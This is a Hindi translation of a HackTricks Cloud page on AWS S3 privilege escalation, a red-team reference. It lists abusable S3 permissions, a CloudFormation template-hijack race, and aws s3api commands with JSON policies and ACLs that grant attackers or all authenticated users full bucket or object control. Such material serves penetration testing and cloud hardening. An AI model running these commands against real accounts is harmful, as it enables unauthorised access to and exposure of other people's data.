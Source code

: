# AWS - S3 Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें।

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

इन अनुमतियों के साथ हमलावर दिलचस्प बकेट्स पर नियंत्रण प्राप्त कर सकता है और विशेषाधिकारों को बढ़ा सकता है।

उदाहरण के लिए, एक हमलावर जिसके पास "cf-templates-nohnwfax6a6i-us-east-1" नामक एक cloudformation बकेट पर ये **अनुमतियां** हैं, वह डिप्लॉयमेंट को हाईजैक कर सकता है। निम्नलिखित पॉलिसी के साथ एक्सेस दिया जा सकता है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
और हाइजैक संभव है क्योंकि **टेम्प्लेट को बकेट में अपलोड करने के क्षण से लेकर टेम्प्लेट को डिप्लॉय किए जाने के क्षण तक एक छोटी समय सीमा होती है**। एक हमलावर अपने खाते में एक **लैम्ब्डा फंक्शन** बना सकता है जो **ट्रिगर होगा जब बकेट नोटिफिकेशन भेजा जाता है**, और **उस बकेट की सामग्री को हाइजैक** कर लेता है।

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Pacu मॉड्यूल [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) का उपयोग इस हमले को स्वचालित करने के लिए किया जा सकता है।\
अधिक जानकारी के लिए मूल शोध देखें: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

ये अनुमतियां **S3 में ऑब्जेक्ट्स प्राप्त करने और अपलोड करने** के लिए हैं। AWS के अंदर (और बाहर) कई सेवाएं S3 स्टोरेज का उपयोग **कॉन्फ़िग फाइलों** को स्टोर करने के लिए करती हैं।\
एक हमलावर जिसके पास उन तक **पढ़ने की पहुंच** है, वह उनमें **संवेदनशील जानकारी** पा सकता है।\
एक हमलावर जिसके पास उन तक **लिखने की पहुंच** है, वह **कुछ सेवा का दुरुपयोग करने और अधिकारों को बढ़ाने के लिए डेटा को संशोधित कर सकता है**।\
ये कुछ उदाहरण हैं:

* यदि एक EC2 इंस्टेंस **यूजर डेटा को एक S3 बकेट में स्टोर कर रहा है**, तो एक हमलावर इसे संशोधित कर सकता है ताकि **EC2 इंस्टेंस के अंदर मनमाना कोड निष्पादित किया जा सके**।

### `s3:PutBucketPolicy`

एक हमलावर, जिसे **उसी खाते से होना चाहिए**, अन्यथा त्रुटि `The specified method is not allowed will trigger`, इस अनुमति के साथ वह खुद को बकेट(स) पर अधिक अनुमतियां प्रदान करने में सक्षम होगा, जिससे वह पढ़, लिख, संशोधित, हटाने और बकेट्स को उजागर कर सकता है।
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके विशिष्ट बकेट्स पर **अधिक पहुंच प्राप्त कर सकता है**।\
ध्यान दें कि हमलावर का उसी खाते से होना आवश्यक नहीं है। इसके अलावा लिखने की पहुंच
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके बकेट्स के अंदर विशिष्ट ऑब्जेक्ट्स पर अधिक पहुंच प्राप्त कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन विशेषाधिकारों वाले हमलावर से यह अपेक्षा की जाती है कि वे किसी विशेष ऑब्जेक्ट संस्करण के लिए Acl लगा सकें।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) में या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
